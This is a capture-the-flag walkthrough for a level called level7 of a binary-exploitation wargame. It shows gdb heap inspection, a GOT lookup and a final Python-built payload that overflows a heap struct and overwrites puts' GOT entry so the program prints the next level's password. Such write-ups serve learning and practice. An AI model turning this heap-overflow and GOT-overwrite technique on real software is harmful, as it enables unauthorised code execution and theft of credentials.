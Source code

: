 # Write up

Small reminder :
```
scp -P 4242 level7@192.168.56.101:level7 bin7
objdump -M intel -d bin7 > asm7_intel.txt
```

After disassembling, we notice a `m` function printing the content of the `/home/user/level8/.pass` file, we will have to manage to execute it.
This time, we have no way to put a breakpoint further than the fgets call, since we don't have the rights with gdb we will get a segfault before.

We will try some analysis anyway.
Break point before the fgets call :
```
(gdb) break* 0x80485eb
```
Heap addresses are here :
```
0x804a000  0x806b000    0x21000        0x0 [heap]
```
First buffer (stored argv[1]) :
```
(gdb) run AAAA BBBB
(gdb) find 0x804a000, 0x806b000, 0x41414141
0x804a018
warning: Unable to access target memory at 0x806941c, halting search.
1 pattern found.
```
Second buffer (stored argv[2]) :
```
(gdb) find 0x804a000, 0x806b000, 0x42424242
0x804a038
warning: Unable to access target memory at 0x806943c, halting search.
1 pattern found.
```
With further investigation :
```
(gdb) x/120x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0xfbad240c      0x00000000
```
We see that the 2 buffers are actually structs and have a 20 bytes offset.
The two buffers are right next to each other, so we can overright the second buffer address after 20 chars.
The second buffer also being a strcpy parameter, we will try to execute the puts function with a m call inside though the GOT exploit (See level5).
(If we execute it directly, the `0x8049960` global will not contains the flag file contents)
```
objdump -R level7

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
 ...
08049928 R_386_JUMP_SLOT   puts
 ...
```
We can now write our payload.
Note that we will need to separate the payload in two parts, the first one which overwrite the second struct address, and the second one which overwrite the second struct content.
```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```
